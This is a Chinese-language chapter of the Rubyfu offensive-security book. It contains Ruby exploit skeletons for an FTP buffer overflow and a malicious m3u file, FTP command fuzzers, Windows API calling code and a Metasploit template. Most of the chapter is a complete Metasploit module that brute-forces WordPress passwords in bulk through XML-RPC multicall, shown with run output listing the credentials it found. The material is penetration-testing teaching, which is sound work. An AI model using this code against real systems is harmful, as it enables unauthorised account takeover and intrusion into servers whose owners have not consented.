

# 模块 0x5 | 开发功夫

# 模块 0x5 | 开发功夫

## 骨架利用

拥有一个骨架利用是一个很好的事情，可以在利用过程中快速编辑和使用。

### 网络基础

```
#!/usr/bin/env ruby
# KING SABRI | @KINGSABRI
require 'socket'

buffer = "A" * 2000

#--> Networking
host = ARGV[0]
port = ARGV[1] || 21

s = TCPSocket.open(host, port)
s.recv(1024)
puts "[+] Sending Username."
s.send("USER ftp\r\n", 0)
s.recv(1024)
puts "[+] Sending Password."
s.send("PASS ftp\r\n", 0)
s.recv(1024)
puts "[+] Sending Evil buffer..."
s.send("APPE " + buffer + "\r\n", 0)
total = s.send("STOR " + buffer + "\r\n", 0)
#--> Exploit Info
puts "[+] " + "Total exploit size: " + "#{total} bytes."
puts "[+] " + " Buffer length: " + "#{buffer.size} bytes."
puts "[+] Done"

s.close 
```

执行它

```
ruby ftp_exploit.rb [TARGET] [PORT] 
```

请注意，有些服务必须从中接收，有些则不需要。

### 文件基础

创建一个简单的利用文件

```
#!/usr/bin/env ruby
# KING SABRI | @KINGSABRI

file = ARGV[0] || "exploit.m3u"

junk  = "A" * 2000
eip   = "B" * 4
nops  = "\x90" * 8
shell = "S" * 368
exploit = junk + eip + nops + shell

File.open(file, 'w') {|f| f.write(exploit)}
puts "[*] Exploit size: #{exploit.size}" 
```

执行它

```
ruby m3u_exploit.rb song1.m3u 
```

* * *

# 模糊器

# 模糊器

模糊器通常用于一般或精确的应用程序功能。在这部分中，我们将展示如何使用 ruby 模糊最常见的服务。记住，模糊是一种**打击事物的艺术**，它不仅仅是关于工具。

**模糊器类型**

+   突变

+   元数据/文件格式

## 突变

### FTP 模糊器

模糊 FTP 服务的一般思路是测试所有命令缓冲区大小。然而，并非所有情况都是一样的，例如，测试用户名和密码缓冲区。此外，相同的技术可以应用于许多服务，甚至定制服务。

```
#!/bin/ruby
# KING SABRI | @KINGSABRI
# Simple FTP COMMNDS Fuzzer
#
require 'socket'

class String
  def red; colorize(self, "\e[31m"); end
  def green; colorize(self, "\e[32m"); end
  def colorize(text, color_code);  "#{color_code}#{text}\e[0m" end
end

mark_Red   = "[+]".red
mark_Green = "[+]".green

host = ARGV[0] || "127.0.0.1"
port = ARGV[1] || 21

# List of FTP protocol commands
cmds = ["MKD","ACCL","TOP","CWD","STOR","STAT","LIST","RETR","NLST","LS","DELE","RSET","NOOP","UIDL","USER","APPE"]

buffer  = ["A"]
counter = 1

cmds.each do |cmd|
  buffer.each do |buf|

    while buffer.length <= 40
      buffer << "A" * counter
      counter += 100
    end

    s = TCPSocket.open(host, port)
    s.recv(1024)
    s.send("USER ftp\r\n", 0)
    s.recv(1024)
    s.send("PASS ftp\r\n", 0)
    s.recv(1024)
    puts mark_Red + " Sending " + "#{cmd} ".green + "Command with " + "#{buf.size} bytes ".green  + "Evil buffer" + ".".green
    s.send(cmd + " " + buf + "\r\n", 0)
    s.recv(1024)
    s.send("QUIT\r\n", 0)
    s.close
  end
  puts "~~~~~~~~~~~~~~~~~~~~".red
  sleep 0.5
end 
```

我想让它更加优雅，给自己一个机会逐个检查和配置每个命令。

```
#!/usr/bin/evn ruby
#
# KING SABRI | @KINGSABRI
# Simple FTP COMMNDS Fuzzer
#
require 'socket'

if ARGV.size < 1 
  puts "#{__FILE__} <host> [port]"
  exit 0 
else
  @host = ARGV[0]
  @port = ARGV[1] || 21
end

def fuzz(payload)
  begin 
  s = TCPSocket.open(@host, @port)
  s.recv(2048)
  s.send payload, 0
  s.recv(2048)
  s.close
  rescue
    puts "Crash detected after #{payload.size} bytes"
    exit 0
  end
end

def insertion(point="", buffer=0)
  buffer = buffer * 10
  points = 
    {
      core:           "A" * buffer, # Comment this line is it hangs the fuzzer
      user: "USER " + "B" * buffer + "\r\n",
      pass: "PASS " + "C" * buffer + "\r\n",
      accl: "ACCL " + "D" * buffer + "\r\n",
      appe: "APPE " + "E" * buffer + "\r\n",
      cmd:  "CWD "  + "F" * buffer + "\r\n",
      dele: "DELE " + "G" * buffer + "\r\n",
      list: "LIST " + "H" * buffer + "\r\n",
      ls:   "LS "   + "I" * buffer + "\r\n",
      mkd:  "MKD "  + "J" * buffer + "\r\n",
      nlst: "NLST " + "K" * buffer + "\r\n",
      noop: "NOOP " + "L" * buffer + "\r\n",
      retr: "RETR " + "M" * buffer + "\r\n",
      rest: "RSET " + "N" * buffer + "\r\n",
      stat: "STAT " + "O" * buffer + "\r\n",
      stor: "STOR " + "P" * buffer + "\r\n",
      top:  "TOP "  + "Q" * buffer + "\r\n",
      uidl: "UIDL " + "R" * buffer + "\r\n"
      }
  return points[point] unless point.empty?
  points
end

puts "[+] Fuzzing #{@host} on port #{@port}..."
insertion.keys.each do |point|
  (1..500).each do |buffer|

    puts "[+] Fuzzing #{point.to_s}: #{insertion(point, buffer).size} bytes"
    fuzz insertion(point, buffer)

  end
end 
```

> 请注意，这个脚本可以用于其他协议（IMAP，POP3 等），因为它涉及到套接字！。

* * *

# 调用 Windows API

# 调用 Windows API

由于参与 MS-Windows 开发，我使用了一些调用 Windows API 的**C**应用程序，我想试试并逐步进行尝试。

我脑海中想到的最简单的例子是调用*MessageBoxA*函数。如果我们查看*MessageBoxA*函数的[MSDN](https://msdn.microsoft.com/en-us/library/windows/desktop/ms645505.aspx)，我们会在最开始找到函数描述及其参数和返回值。在要求部分，我们会找到调用*MessageBoxA*函数所需的 DLL，即*User32.dll*库。

```
int WINAPI MessageBox( _In_opt_ HWND    hWnd,
  _In_opt_ LPCTSTR lpText,
  _In_opt_ LPCTSTR lpCaption,
  _In_     UINT    uType ); 
```

让我们开始吧，

```
require "Win32API"

title = "Rubyfu!"
message = "You've called the Windows API Successfully! \n\n@Runyfu"

api = Win32API.new('user32', 'MessageBoxA',['L', 'P', 'P', 'L'],'I')
api.call(0,message,title,0) 
```


[源码和解释](http://www.rubytips.org/2008/05/13/accessing-windows-api-from-ruby-using-win32api-library/)

这真的很容易！但是，`Win32API`将会被弃用，或者在你阅读这部分时已经被弃用。Ruby 已经将所有与 C、dll 函数的处理移至`Fiddle`类，它是`libffi` C 库的一个包装器，提供了一个可移植的接口，允许语言调用另一种语言的代码。

如果我们再次使用`Fiddle`构建我们的 MessageBoxA 脚本，它将会是这样的

```
# Load importer part of fiddle (ffi) library
require 'fiddle/import'

# int WINAPI MessageBox(
#   _In_opt_ HWND    hWnd,
#   _In_opt_ LPCTSTR lpText,
#   _In_opt_ LPCTSTR lpCaption,
#   _In_     UINT    uType
# );
# Create module as body for an importer instance
module User32
    # Extend this module to an importer
    extend Fiddle::Importer
    # Load 'user32' dynamic library into this importer
    dlload 'user32'
    # Set C aliases to this importer for further understanding of function signatures
    typealias 'HWND', 'HANDLE'
    typealias 'LPCSTR', 'const char*'
    typealias 'LPCWSTR', 'const wchar_t*'
    typealias 'UINT', 'unsigned int'
    typealias 'HANDLE', 'void*'
    # Import C functions from loaded libraries and set them as module functions
    extern 'int MessageBoxA(HWND, LPCSTR, LPCSTR, UINT)'
end

title = "Rubyfu!"
message = "You've called the Windows API Successfully! \n\n@Runyfu"
User32::MessageBoxA(nil, message, title, 0) 
```

[源码](https://gist.github.com/Youka/3ebbdfd03454afa7d0c4)

正如你所看到的，脚本变得越来越庞大，但是，需要提到的重要一点是，对于更大或更复杂的任务，使用`Win32API`将会是一个真正的痛苦，另一方面，`Fiddle`比`Win32API`更加优雅和可读

那时，我在想是否可以编写类似于一个名为[*arwin*](http://www.vividmachines.com/shellcode/arwin.c)的旧朋友应用程序，它可以在 Windows 库中找到函数位置。借助 MSDN 的 [LoadLibrary](https://msdn.microsoft.com/en-us/library/windows/desktop/ms684175(v=vs.85.aspx) 和 [GetProcAddress](https://msdn.microsoft.com/en-us/library/windows/desktop/ms683212(v=vs.85.aspx) 文档，让我们来做吧。

**arwin.rb**

```
require 'fiddle/import'
#
# KING SABRI | @KINGSABRI
#
if ARGV.size == 2
  lpfilename  = ARGV[0] # Library Name
  lpprocname  = ARGV[1] # Function Name
else
  puts "ruby arwin.rb <Library Name> <Function Name>"
  puts "example:\n arwin.rb user32.dll MessageBoxA"
  exit 0
end

module Kernel32

  # Extend this module to an importer
  extend Fiddle::Importer
  # Load 'user32' dynamic library into this importer
  dlload 'kernel32'

  # HMODULE WINAPI LoadLibrary(
  #   _In_ LPCTSTR lpFileName
  # );
  typealias 'lpfilename', 'char*'
  extern 'unsigned char* LoadLibrary(lpfilename)'

  # FARPROC WINAPI GetProcAddress(
  #   _In_ HMODULE hModule,
  #   _In_ LPCSTR  lpProcName
  # );
  typealias 'lpfilename', 'char*'
  typealias 'lpprocname', 'char*'
  extern 'unsigned char* GetProcAddress(lpfilename, lpprocname)'

end
address = Kernel32::GetProcAddress(Kernel32::LoadLibrary(lpfilename), lpprocname).inspect.scan(/0x[\h]+/i)[1]
unless address.hex.zero?
  puts "\n[+] #{lpprocname} is location at #{address} in #{lpfilename}\n"
else
  puts "[!] Could find #{lpprocname} in #{lpfilename}!"
  puts "[-] Function's name is case sensitive"
end 
```

结果

```
[+] MessageBoxA is location at 0x77d8050b in user32.dll 
```


# Metasploit

# Metasploit

## 代码设计模式

Metasploit 使用**外观**设计模式，通过将其实现为接口来封装/简化框架的复杂部分，使开发变得非常简单和优雅。我发现维基百科的外观示例很适合展示

```
# Complex Parts | Computer framework 
class CPU 
  def freeze; end
  def jump(position); end
  def execute; end
end

class Memory
  def load(position, data); end
end

class HardDrive
  def read(lba, size); end
end

# Facade | Interface
class ComputerFacade

  def initialize
    @processor = CPU.new
    @ram = Memory.new
    @hd  = HardDrive.new
  end

  def start
    @processor.freeze
    @ram.load(BOOT_ADDRESS, @hd.read(BOOT_SECTOR, SECTOR_SIZE))
    @processor.jump(BOOT_ADDRESS)
    @processor.execute
  end
end

# Client (The Developer want to use the complex computer framework)
computer_facade = ComputerFacade.new
computer_facade.start 
```

如您从上面的代码中所看到的，想要使用**计算机框架**的开发人员不必直接处理复杂的代码库（类、方法和计算）。相反，他将使用一个名为**`ComputerFacade`**的简单接口类，一旦调用它，它将实例化（作为对象）所有类。

Ruby 语言本身的另一个存在示例是 `open-uri` 标准库，它封装了 `net/http` 和 `uri` 库，并使它们看起来像是打开普通文件。为了看到`open-uri`是如何简化事情的，我们将编写一个代码，发送 get 请求到 *Ruby.net* 并以常规和`open-uri`方式获取响应

**常规方式**

```
require 'net/http'
require 'uri'

url = URI.parse('http://rubyfu.net')

res = Net::HTTP.start(url.host, url.port) {|http|
  http.get('/content/index.html')
}

puts res.body 
```

**外观方式**

```
require "open-uri"

puts open("http://rubyfu.net/content/index.html").read 
```

更多关于外观

+   [Practicingruby | 结构设计模式](https://practicingruby.com/articles/structural-design-patterns)

+   [维基百科| 外观模式#Ruby](https://en.wikipedia.org/wiki/Facade_pattern#Ruby)

+   [Sourcemaking | 外观设计模式](https://sourcemaking.com/design_patterns/facade)

## Metasploit 结构



如上图所示，Metasploit 库作为接口为所有模块、接口、工具和插件提供服务。这正好代表了我们在**代码设计模式**中解释的内容。

```
 mkdir -p $HOME/.msf4/modules/{auxiliary,exploits,post} 
```

## 绝对模块

这是一个通用模块的非常基本结构。

我将添加一些注释以解释目的。

```
##
# This module requires Metasploit: http://www.metasploit.com/download
# Current source: https://github.com/rapid7/metasploit-framework
##

require 'msf/core'

### Module Type ###
class Metasploit3 < Msf::Exploit::Remote
####################

### Module Requirements ###
include Exploit::Remote::Tcp
####################

### Exploit Rank ####
  Rank = ExcellentRanking
####################

### Module Information
  def initialize(info = {})
    super(update_info(
      info,
      'Name'            => 'Absolute MSF template',
      'Description'     => %q{This is an absolute MSF template that shows how all modules look like},
      'License'         => MSF_LICENSE,
      'Author'          =>
        [
          'Rubyfu (@Rubyfu)',
          'Sabri (@KINGSABRI)'
        ],
      'References'      =>
        [
          ['URL', 'http://Rubyfu.net'],
          ['URL', 'https://github.com/Rubyfu']
        ],
      'Platform'        => %w{ linux win osx solaris unix bsd android aix},
      'Targets'         =>
        [
            ['Universal', {}]
        ],
      'DefaultTarget'  => 0,
      'DisclosureDate'  => '2015'
    ))

    # Module Options | show options
    register_options(
      [
          Opt::RPORT(22),
          OptString.new('USER', [ true, 'Valid username', 'admin' ]),
          OptString.new('PASS', [ true, 'Valid password for username', 'P@ssw0rd' ]),
      ], self.class)

    # Module Advanced Options | show advanced
    register_advanced_options(
      [
          OptInt.new('THREADS', [true, 'The number of concurrent threads', 5])
      ], self.class)
  end
####################

### Module Operations ###
  def exploit # or 'run' for post and auxiliary modules
    print_status('Starting Rubyfu')
    print_warning("It's just a template.")
    print_good('Ruby goes evil!')
    print_error("Thank you!")
  end
####################

end 
```

结果是


### 加载 Metasploit 模块

要加载/重新加载您正在使用的 Metasploit 模块，您可以将脚本放在您的用户 Metasploit 路径或 Metasploit 框架路径中

+   用户的 Metasploit 路径

    ```
    ~/msf4/modules 
    ```

+   Metasploit 框架路径

    ```
    metasploit-framework/modules/ 
    ```

要使 Metasploit 加载/重新加载脚本，请使用以下方法之一

+   退出 msfconsole 然后再次运行

+   使用`reload_all`重新加载所有模块

+   如果您的模块以前已加载并对其进行了更改，只需使用`reload`，但您必须使用该模块，换句话说，`use [YOUR MODULE]`

**注意：** 了解官方 Metasploit 开发文档**（**[`www.rubydoc.info/github/rapid7/metasploit-framework/`](http://www.rubydoc.info/github/rapid7/metasploit-framework/) **）**非常重要

* * *

# 辅助模块

# 辅助模块

## 扫描器

基本扫描模块

### WordPress XML-RPC 大规模暴力破解

WordPress CMS 框架支持 XML-RPC 服务与框架中几乎所有功能进行交互。一些功能需要身份验证。主要问题在于您可以在同一请求中多次进行身份验证。WordPress 接受大约 1788 行的 XML 请求，这使我们能够在单个请求中发送大量的登录尝试。这有多棒？让我解释一下。

想象一下，你必须暴力破解一个用户的 6000 个密码？在传���的暴力破解技术中，你需要发送多少请求？是 6000 个请求。使用我们的模块只需要 4 个请求，如果使用默认的 CHUNKSIZE，即每个请求 1500 个密码！！！没有多线程，即使你在传统的暴力破解技术中使用多线程，你也只会发送少量的并行请求。

```
<?xml version="1.0"?>
<methodCall>
<methodName>system.multicall</methodName>
<params>
 <param><value><array><data>

  <value><struct>
  <member>
    <name>methodName</name>
    <value><string>wp.getUsersBlogs</string></value>
  </member>
  <member>
    <name>params</name><value><array><data>
     <value><array><data>
      <value><string>"USER #1"</string></value>
      <value><string>"PASS #1"</string></value>
     </data></array></value>
    </data></array></value>
  </member>

  ...Snippet...

  <value><struct>
  <member>
    <name>methodName</name>
    <value><string>wp.getUsersBlogs</string></value>
  </member>
  <member>
    <name>params</name><value><array><data>
     <value><array><data>
      <value><string>"USER #1"</string></value>
      <value><string>"PASS #N"</string></value>
     </data></array></value>
    </data></array></value>
  </member>

</params>
</methodCall> 
```

从上面你可以理解 XML 请求将如何构建。现在回复会是什么样？为了简化，我们将测试一个用户一次用错误密码，另一个用正确密码来了解响应行为

**错误密码的响应**

```
<?xml version="1.0" encoding="UTF-8"?>
<methodResponse>
  <params>
    <param>
      <value>
        <array>
          <data>
            <value>
              <struct>
                <member>
                  <name>faultCode</name>
                  <value>
                    <int>403</int>
                  </value>
                </member>
                <member>
                  <name>faultString</name>
                  <value>
                    <string>Incorrect username or password.</string>
                  </value>
                </member>
              </struct>
            </value>
          </data>
        </array>
      </value>
    </param>
  </params>
</methodResponse> 
```

我们注意到了以下内容

+   `<name>faultCode</name>`

+   `<int>403</int>`

+   `<string>用户名或密码不正确。</string>`

通常我们依赖于字符串响应'*用户名或密码不正确。*', 但如果 WordPress 的语言不是英语怎么办？所以最好的是整数响应`403`

**正确密码的响应**

```
<?xml version="1.0" encoding="UTF-8"?>
<methodResponse>
  <params>
    <param>
      <value>
        <array>
          <data>
            <value>
              <array>
                <data>
                  <value>
                    <array>
                      <data>
                        <value>
                          <struct>
                            <member>
                              <name>isAdmin</name>
                              <value>
                                <boolean>1</boolean>
                              </value>
                            </member>
                            <member>
                              <name>url</name>
                              <value>
                                <string>http://172.17.0.3/</string>
                              </value>
                            </member>
                            <member>
                              <name>blogid</name>
                              <value>
                                <string>1</string>
                              </value>
                            </member>
                            <member>
                              <name>blogName</name>
                              <value>
                                <string>Docker wordpress</string>
                              </value>
                            </member>
                            <member>
                              <name>xmlrpc</name>
                              <value>
                                <string>http://172.17.0.3/xmlrpc.php</string>
                              </value>
                            </member>
                          </struct>
                        </value>
                      </data>
                    </array>
                  </value>
                </data>
              </array>
            </value>
          </data>
        </array>
      </value>
    </param>
  </params>
</methodResponse> 
```

我们注意到了长长的回复，带有调用方法`wp.getUsersBlogs`的结果

很棒，对吧？

棘手的部分刚刚开始！因为我们将在一个请求中发送成千上万个密码，回复将是非常庞大的 XML 文件，我们如何找到正确凭据的位置？答案是，通过使用强大的 Ruby 迭代方法，特别是`each_with_index`方法。

废话少说，给我看代码！

#### 我们想要什么？

+   创建辅助模块

+   处理 Web 应用程序

+   处理 WordPress

+   描述模块

+   让人们知道我们创建了这个模块

+   添加我们利用的漏洞的参考资料

+   设置目标 URI、端口、用户、密码列表的选项。

+   将用户名和密码列表读取为数组

+   构建/生成 XML 文件，使用一个用户并围绕密码进行迭代

+   检查目标是否在运行 WordPress

+   检查目标是否启用了 RPC

+   设置带有 XML POST 请求的 HTTP

+   解析 XML 请求和响应

+   找到确切的正确凭据

+   检查我们是否被阻止

+   解析结果并找出哪个密码是正确的

+   检查模块是否已正确编写（msftidy.rb）

#### 步骤

+   创建辅助模块

+   处理 Web 应用程序

+   处理 WordPress

+   描述模块

+   让人们知道我们创建了这个模块

+   添加我们利用的漏洞的参考资料

+   设置目标 URI、端口、用户、密码列表的选项。

```
##
# This module requires Metasploit: http://www.metasploit.com/download
# Current source: https://github.com/rapid7/metasploit-framework
##

require 'msf/core'

class Metasploit3 < Msf::Auxiliary
  include Msf::Exploit::Remote::HttpClient
  include Msf::Exploit::Remote::HTTP::Wordpress

  def initialize(info = {})
    super(update_info(
            info,
            'Name'         => 'WordPress XML-RPC Massive Brute Force',
            'Description'  => %q{WordPress massive brute force attacks via WordPress XML-RPC service.},
            'License'      => MSF_LICENSE,
            'Author'       =>
                [
                  'Sabri (@KINGSABRI)',           # Module Writer
                  'William (WCoppola@Lares.com)'  # Module Requester
                ],
            'References'   =>
                [
                  ['URL', 'https://blog.cloudflare.com/a-look-at-the-new-wordpress-brute-force-amplification-attack/'],
                  ['URL', 'https://blog.sucuri.net/2014/07/new-brute-force-attacks-exploiting-xmlrpc-in-wordpress.html']
                ]
          ))

    register_options(
        [
          OptString.new('TARGETURI', [true, 'The base path', '/']),
          OptPath.new('WPUSER_FILE', [true, 'File containing usernames, one per line',
                                      File.join(Msf::Config.data_directory, "wordlists", "http_default_users.txt") ]),
          OptPath.new('WPPASS_FILE', [true, 'File containing passwords, one per line',
                                      File.join(Msf::Config.data_directory, "wordlists", "http_default_pass.txt")]),
          OptInt.new('BLOCKEDWAIT', [true, 'Time(minutes) to wait if got blocked', 6]),
          OptInt.new('CHUNKSIZE', [true, 'Number of passwords need to be sent per request. (1700 is the max)', 1500])
        ], self.class)
  end
end 
```

+   将用户名和密码列表读取为数组

```
 def usernames
    File.readlines(datastore['WPUSER_FILE']).map {|user| user.chomp}
  end

  def passwords
    File.readlines(datastore['WPPASS_FILE']).map {|pass| pass.chomp}
  end 
```

+   构建/生成 XML 文件，使用一个用户并围绕密码进行迭代

```
 #
  # XML Factory
  #
  def generate_xml(user)

    vprint_warning('Generating XMLs may take a while depends on the list file(s) size.') if passwords.size > 1500
    xml_payloads = []                          # Container for all generated XMLs
    # Evil XML | Limit number of log-ins to CHUNKSIZE/request due WordPress limitation which is 1700 maximum.
    passwords.each_slice(datastore['CHUNKSIZE']) do |pass_group|

      document = Nokogiri::XML::Builder.new do |xml|
        xml.methodCall {
          xml.methodName("system.multicall")
          xml.params {
          xml.param {
          xml.value {
          xml.array {
          xml.data {

        pass_group.each  do |pass|
          xml.value {
          xml.struct {
          xml.member {
          xml.name("methodName")
          xml.value { xml.string("wp.getUsersBlogs") }}
            xml.member {
            xml.name("params")
            xml.value {
            xml.array {
            xml.data {
            xml.value {
            xml.array {
              xml.data {
                xml.value { xml.string(user) }
                xml.value { xml.string(pass) }
          }}}}}}}}}
        end

          }}}}}}
      end

      xml_payloads << document.to_xml
    end

    vprint_status('Generating XMLs just done.')
    xml_payloads
  end 
```

+   检查目标是否在运行 WordPress

+   检查目标是否启用 RPC

```
 #
  # Check target status
  #
  def check_wpstatus
    print_status("Checking #{peer} status!")

    if !wordpress_and_online?
      print_error("#{peer}:#{rport}#{target_uri} does not appear to be running WordPress or you got blocked! (Do Manual Check)")
      nil
    elsif !wordpress_xmlrpc_enabled?
      print_error("#{peer}:#{rport}#{wordpress_url_xmlrpc} does not enable XML-RPC")
      nil
    else
      print_status("Target #{peer} is running WordPress")
      true
    end

  end 
```

+   设置 HTTP 与 XML POST 请求

```
 #
  # Connection Setup
  #
  def send(xml)
    uri  = target_uri.path
    opts =
      {
        'method'  => 'POST',
        'uri'     => normalize_uri(uri, wordpress_url_xmlrpc),
        'data'    => xml,
        'ctype'   =>'text/xml'
      }
    client = Rex::Proto::Http::Client.new(rhost)
    client.connect
    req  = client.request_cgi(opts)
    res  = client.send_recv(req)

    if res && res.code != 200
      print_error('It seems you got blocked!')
      print_warning("I'll sleep for #{datastore['BLOCKEDWAIT']} minutes, then I'll try again. CTR+C to exit")
      sleep datastore['BLOCKEDWAIT'] * 60
    end
    @res = res
  end 
```

+   解析 XML 请求和响应

+   找到确切的正确凭证

+   检查是否被阻止

+   解析结果并找出哪个密码是正确的

```
 def run
    return if check_wpstatus.nil?

    usernames.each do |user|
      passfound = false

      print_status("Brute forcing user: #{user}")
      generate_xml(user).each do |xml|
        next if passfound == true

        send(xml)

        # Request Parser
        req_xml = Nokogiri::Slop xml
        # Response Parser
        res_xml = Nokogiri::Slop @res.to_s.scan(/<.*>/).join
        puts res_xml
        res_xml.search("methodResponse/params/param/value/array/data/value").each_with_index do |value, i|

          result =  value.at("struct/member/value/int")
          # If response error code doesn't not exist, then it's the correct credentials!
          if result.nil?
            user = req_xml.search("data/value/array/data")[i].value[0].text.strip
            pass = req_xml.search("data/value/array/data")[i].value[1].text.strip
            print_good("Credentials Found! #{user}:#{pass}")

            passfound = true
          end

        end

        unless user == usernames.last
          vprint_status('Sleeping for 2 seconds..')
          sleep 2
        end

      end 
    end 
  end 
```

#### 总结

```
##
# This module requires Metasploit: http://www.metasploit.com/download
# Current source: https://github.com/rapid7/metasploit-framework
##

require 'msf/core'

class Metasploit3 < Msf::Auxiliary
  include Msf::Exploit::Remote::HttpClient
  include Msf::Exploit::Remote::HTTP::Wordpress

  def initialize(info = {})
    super(update_info(
            info,
            'Name'         => 'WordPress XML-RPC Massive Brute Force',
            'Description'  => %q{WordPress massive brute force attacks via WordPress XML-RPC service.},
            'License'      => MSF_LICENSE,
            'Author'       =>
                [
                  'Sabri (@KINGSABRI)',           # Module Writer
                  'William (WCoppola@Lares.com)'  # Module Requester
                ],
            'References'   =>
                [
                  ['URL', 'https://blog.cloudflare.com/a-look-at-the-new-wordpress-brute-force-amplification-attack/'],
                  ['URL', 'https://blog.sucuri.net/2014/07/new-brute-force-attacks-exploiting-xmlrpc-in-wordpress.html']
                ]
          ))

    register_options(
        [
          OptString.new('TARGETURI', [true, 'The base path', '/']),
          OptPath.new('WPUSER_FILE', [true, 'File containing usernames, one per line',
                                      File.join(Msf::Config.data_directory, "wordlists", "http_default_users.txt") ]),
          OptPath.new('WPPASS_FILE', [true, 'File containing passwords, one per line',
                                      File.join(Msf::Config.data_directory, "wordlists", "http_default_pass.txt")]),
          OptInt.new('BLOCKEDWAIT', [true, 'Time(minutes) to wait if got blocked', 6]),
          OptInt.new('CHUNKSIZE', [true, 'Number of passwords need to be sent per request. (1700 is the max)', 1500])
        ], self.class)
  end

  def usernames
    File.readlines(datastore['WPUSER_FILE']).map {|user| user.chomp}
  end

  def passwords
    File.readlines(datastore['WPPASS_FILE']).map {|pass| pass.chomp}
  end

  #
  # XML Factory
  #
  def generate_xml(user)

    vprint_warning('Generating XMLs may take a while depends on the list file(s) size.') if passwords.size > 1500
    xml_payloads = []                          # Container for all generated XMLs
    # Evil XML | Limit number of log-ins to CHUNKSIZE/request due WordPress limitation which is 1700 maximum.
    passwords.each_slice(datastore['CHUNKSIZE']) do |pass_group|

      document = Nokogiri::XML::Builder.new do |xml|
        xml.methodCall {
          xml.methodName("system.multicall")
          xml.params {
          xml.param {
          xml.value {
          xml.array {
          xml.data {

        pass_group.each  do |pass|
          xml.value {
          xml.struct {
          xml.member {
          xml.name("methodName")
          xml.value { xml.string("wp.getUsersBlogs") }}
            xml.member {
            xml.name("params")
            xml.value {
            xml.array {
            xml.data {
            xml.value {
            xml.array {
              xml.data {
                xml.value { xml.string(user) }
                xml.value { xml.string(pass) }
          }}}}}}}}}
        end

          }}}}}}
      end

      xml_payloads << document.to_xml
    end

    vprint_status('Generating XMLs just done.')
    xml_payloads
  end

  #
  # Check target status
  #
  def check_wpstatus
    print_status("Checking #{peer} status!")

    if !wordpress_and_online?
      print_error("#{peer}:#{rport}#{target_uri} does not appear to be running WordPress or you got blocked! (Do Manual Check)")
      nil
    elsif !wordpress_xmlrpc_enabled?
      print_error("#{peer}:#{rport}#{wordpress_url_xmlrpc} does not enable XML-RPC")
      nil
    else
      print_status("Target #{peer} is running WordPress")
      true
    end

  end

  #
  # Connection Setup
  #
  def send(xml)
    uri  = target_uri.path
    opts =
      {
        'method'  => 'POST',
        'uri'     => normalize_uri(uri, wordpress_url_xmlrpc),
        'data'    => xml,
        'ctype'   =>'text/xml'
      }
    client = Rex::Proto::Http::Client.new(rhost)
    client.connect
    req  = client.request_cgi(opts)
    res  = client.send_recv(req)

    if res && res.code != 200
      print_error('It seems you got blocked!')
      print_warning("I'll sleep for #{datastore['BLOCKEDWAIT']} minutes, then I'll try again. CTR+C to exit")
      sleep datastore['BLOCKEDWAIT'] * 60
    end
    @res = res
  end

  def run
    return if check_wpstatus.nil?

    usernames.each do |user|
      passfound = false

      print_status("Brute forcing user: #{user}")
      generate_xml(user).each do |xml|
        next if passfound == true

        send(xml)

        # Request Parser
        req_xml = Nokogiri::Slop xml
        # Response Parser
        res_xml = Nokogiri::Slop @res.to_s.scan(/<.*>/).join
        puts res_xml 
        res_xml.search("methodResponse/params/param/value/array/data/value").each_with_index do |value, i|

          result =  value.at("struct/member/value/int")
          # If response error code doesn't not exist
          if result.nil?
            user = req_xml.search("data/value/array/data")[i].value[0].text.strip
            pass = req_xml.search("data/value/array/data")[i].value[1].text.strip
            print_good("Credentials Found! #{user}:#{pass}")

            passfound = true
          end

        end

        unless user == usernames.last
          vprint_status('Sleeping for 2 seconds..')
          sleep 2
        end

  end end end
end 
```

+   检查模块是否已正确编写（msftidy.rb）

```
metasploit-framework/tools/dev/msftidy.rb wordpress_xmlrpc_massive_bruteforce.rb 
```

**运行它**

```
msf auxiliary(wordpress_xmlrpc_massive_bruteforce) > show options 

Module options (auxiliary/scanner/http/wordpress_xmlrpc_massive_bruteforce):

   Name         Current Setting                                                                 Required  Description
   ----         ---------------                                                                 --------  -----------
   BLOCKEDWAIT  6                                                                               yes       Time(minutes) to wait if got blocked
   CHUNKSIZE    1500                                                                            yes       Number of passwords need to be sent per request. (1700 is the max)
   Proxies                                                                                      no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOST        172.17.0.3                                                                      yes       The target address
   RPORT        80                                                                              yes       The target port
   TARGETURI    /                                                                               yes       The base path
   VHOST                                                                                        no        HTTP server virtual host
   WPPASS_FILE  /home/KING/Code/MSF/metasploit-framework/data/wordlists/http_default_pass.txt   yes       File containing passwords, one per line
   WPUSER_FILE  /home/KING/Code/MSF/metasploit-framework/data/wordlists/http_default_users.txt  yes       File containing usernames, one per line

msf auxiliary(wordpress_xmlrpc_massive_bruteforce) > run

[*] Checking 172.17.0.3:80 status!
[*] Target 172.17.0.3:80 is running WordPress
[*] Brute forcing user: admin
[+] Credentials Found! admin:password
[*] Brute forcing user: manager
[*] Brute forcing user: root
[*] Brute forcing user: cisco
[*] Brute forcing user: apc
[*] Brute forcing user: pass
[*] Brute forcing user: security
[*] Brute forcing user: user
[*] Brute forcing user: system
[+] Credentials Found! system:root
[*] Brute forcing user: sys
[*] Brute forcing user: wampp
[*] Brute forcing user: newuser
[*] Brute forcing user: xampp-dav-unsecure
[*] Auxiliary module execution completed 
```

# 利用模块

# 利用模块

## 远程利用

### FTP 利用

我们的示例将是一个非常简单的易受攻击的 FTP 服务器，名为 ability server。

#### 我们想要什么？

+   创建利用模块

+   利用 FTP 服务器

+   设置利用等级

+   描述该模块

+   让人们知道我们创建了这个模块

+   添加我们利用的漏洞的参考资料

